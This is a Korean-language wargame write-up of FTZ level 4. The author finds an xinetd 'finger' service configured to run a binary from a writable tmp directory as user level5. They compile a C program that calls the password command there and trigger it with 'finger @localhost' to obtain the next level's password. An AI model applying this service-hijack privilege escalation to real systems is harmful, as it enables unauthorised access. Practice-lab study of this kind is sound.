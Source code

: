 ```yaml
---
title: FTZ 4번 Write-up
date: 2017-8-21 0:12:00
categories: FTZ
---
```


## FTZ 4번

    [level4@ftz level4]$ ls
    hint  public_html  tmp
    [level4@ftz level4]$ cat hint
    
    
    누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
    
    
    [level4@ftz level4]$ cd /etc/xinetd.d/
    [level4@ftz xinetd.d]$ ls -l backdoor
    -r--r--r--    1 root     level4        171 Sep 10  2011 backdoor

백도어가 있다고 하는데, 할당된 권한은 읽기권한밖에 없다.

    [level4@ftz xinetd.d]$ cat backdoor
    service finger
    {
            disable = no
            flags           = REUSE
            socket_type     = stream
            wait            = no
            user            = level5
            server          = /home/level4/tmp/backdoor
            log_on_failure  += USERID
    }

finger 명령을 통해서 플래그를 획득할 수 있다고 합니다. user는 `level5`, server는 `/home/level4/tmp/backdoor` 에 있다고 합니다.
즉, level5의 권한으로 `/home/level4/tmp/backdoor` 에 있는 파일을 실행해주는 것입니다.

    [level4@ftz tmp]$ ls -al
    total 8
    drwxrwxr-x    2 root     level4       4096 Aug 20 10:42 .
    drwxr-xr-x    4 root     level4       4096 May  7  2002 ..

하지만 `/home/level4/tmp`에는 아무것도 없습니다.
직접 만들어줘야 하는 듯 합니다.

    #include<stdio.h>
    #include<stdlib.h>
    int main() {
            system("my-pass");
    return 0;
    }

vi로 backdoor.c라는 소스를 만들고, gcc로 컴파일 하였습니다.

    [level4@ftz tmp]$ gcc -o backdoor backdoor.c
    [level4@ftz tmp]$ ls -l
    total 16
    -rw-rw-r--    1 level4   level4         82 Aug 20 13:38 backdoor.c
    -rwxrwxr-x    1 level4   level4      11541 Aug 20 13:44 backdoor
    [level4@ftz tmp]$ finger @localhost
    ^[[H^[[J
    Level5 Password is "what is your name?".

뚫었다.